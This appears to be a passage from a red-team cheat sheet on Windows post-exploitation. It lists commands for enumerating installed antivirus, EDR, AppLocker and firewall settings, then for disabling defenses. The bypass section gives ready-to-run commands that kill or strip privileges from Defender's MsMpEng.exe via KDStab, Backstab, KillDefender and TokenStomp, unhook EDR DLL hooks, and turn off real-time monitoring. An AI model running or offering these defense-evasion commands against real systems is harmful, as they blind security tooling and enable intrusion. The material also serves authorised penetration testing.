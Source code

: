 #### _Enumerate defensive measures:_
- List installed security products and tools (also lists processes) \([C2\-Tool\-Collection-BOF](https://github.com/outflanknl/C2-Tool-Collection)\): ```Psx```
- List process DLL's (default current) to determine if the process was injected by EDR/AV: \([CS\-Situational\-Awareness\-BOF](https://github.com/trustedsec/CS-Situational-Awareness-BOF)\): ```listmods (<pid>)```
- Enumerate installed services to check the signing cert against known EDR/AV vendors (CS-Situational-Awareness-BOF): ```driversigs```
- List AV products \([Seatbelt](https://github.com/GhostPack/Seatbelt)\): ```seatbelt.exe AMSIProviders AntiVirus McAfeeConfigs SecurityPackages WindowsDefender```
- List AV products: ```wmic /node:localhost /namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName /format:List```
- List AV's, EDR's and logging tools \([SharpEDRChecker](https://github.com/PwnDexter/SharpEDRChecker)\): ```SharpEDRChecker.exe```
- Applocker and system restriction \(Seatbelt\): ```seatbelt.exe AppLocker LSASettings```
- Verify if PowerShell Constrained Language Mode \(CLM\) is enabled: ```$ExecutionContext.SessionState.LanguageMode```
- Firewall configuration: 
	- Show detailed list of firewall rules \([Firewall\_Enumerator\_BOF](https://github.com/EspressoCake/Firewall_Walker_BOF)\): ```fw_walk display```
	- List all firewall rules \(Seatbelt\): ```seatbelt.exe WindowsFirewall```
	- List details specific firewall rule: ```netsh advfirewall firewall show rule name="<all | name specific rule>" dir=in```


---
### __Bypass defenses:__
#### _Disable EDR/AV solution:_
>These methods require elevated privileges. 
- Make Defender useless by leveraging [Backstab](https://github.com/Yaxser/Backstab) and [KillDefender](https://github.com/Octoberfest7/KillDefender_BOF) as BOF: 
	- Check the integrity level of a process ([KDStab](https://github.com/Octoberfest7/KDStab)\): ```kdstab /NAME:<MsMpEng.exe> /CHECK```
	- Strip a process of its privileges and set its token to Untrusted (KDStab): ```kdstab /NAME:<process name (e.g. MsMpEng.exe)> /STRIP```
	- Kill a PPL protected process (KDStab): ```kdstab /NAME:<MsMpEng.exe> /KILL```
- Kill EDR Protected Processes by leveraging sysinternals’ (signed) ProcExp driver ([Backstab](https://github.com/Yaxser/Backstab)\): ```backstab.exe -n <name EDR process> -k -d <dir to extract ProcExp to ( e.g. c:\\temp\\driver.sys)>```
- Make defender useless by removing its token privileges and lowering the token integrity but keep it running: 	
	- Check MsMpEng.exe's token integrity \([KillDefender](https://github.com/Octoberfest7/KillDefender_BOF)\): ```killdefender check```
	- Remove privileges and set MsMpEng.exe token to untrusted (KillDefender): ```killdefender kill```
- Use Token Stomping to remove any token privileges that an EDR/AV process needs to effectively do its job \([TokenStomp](https://github.com/MartinIngesen/TokenStomp)\): ```TokenStomp.exe <process name (e.g. MsMpEng.exe)>```
- Refresh DLL's and remove their hooks for CS \([unhook\-bof](https://github.com/rsmudge/unhook-bof)\): ```unhook```
- Disable Windows Defender via PowerShell: ```Set-MpPreference -DisableRealtimeMonitoring $true```
